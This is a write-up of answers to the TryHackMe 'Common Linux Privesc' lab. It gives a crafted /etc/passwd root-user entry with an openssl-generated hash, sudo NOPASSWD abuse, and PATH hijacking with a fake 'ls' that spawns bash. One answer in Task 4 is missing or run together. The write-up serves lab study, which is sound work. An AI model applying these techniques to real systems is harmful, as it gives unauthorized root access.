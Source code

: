 # TryHackMe Common Linux Privesc

> Saikat Karmakar | Aug 16 : 2021

---


## Task 4

1. What is the target's hostname?
```
polobox
```
2. Look at the output of /etc/passwd how many "user[x]" are there on the system?
```
8
```
3. How many available shells are there on the system?
```
4
```
4. What is the name of the bash script that is set to run every 5 minutes by cron?
What critical file has had its permissions changed to allow some users to write to it?
```
/etc/passwd
```

## Task 5

1. What is the path of the file in user3's directory that stands out to you? 
```
/home/user3/shell
```

## Task 6

1. Having read the information above, what direction privilege escalation is this attack?
```
vertical
```
2. Before we add our new user, we first need to create a compliant password hash to add! We do this by using the command: "openssl passwd -1 -salt [salt] [password]"
What is the hash created by using this command with the salt, "new" and the password "123"?
```
$1$new$p7ptkEKU1HnaHpRtzNizS1
```
3. Great! Now we need to take this value, and create a new root user account. What would the /etc/passwd entry look like for a root user with the username "new" and the password hash we created before?
```
new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root/root:/bin/bash
```

## Task 7

1.  Let's use the "sudo -l" command, what does this user require (or not require) to run vi as root?
```
NOPASSWD
```

## Task 8

1. What is the flag to specify a payload in msfvenom?
```
-p
```
2. What directory is the "autoscript.sh" under?
```
/home/user4/Desktop
```

## Task 9

1. Let's go to user5's home directory, and run the file "script". What command do we think that it's executing?
```
ls
```
2. What would the command look like to open a bash shell, writing to a file with the name of the executable we're imitating
```
echo "/bin/bash" > ls
```
3. Great! Now we've made our imitation, we need to make it an executable. What command do we execute to do this?
```
chmod +x ls
```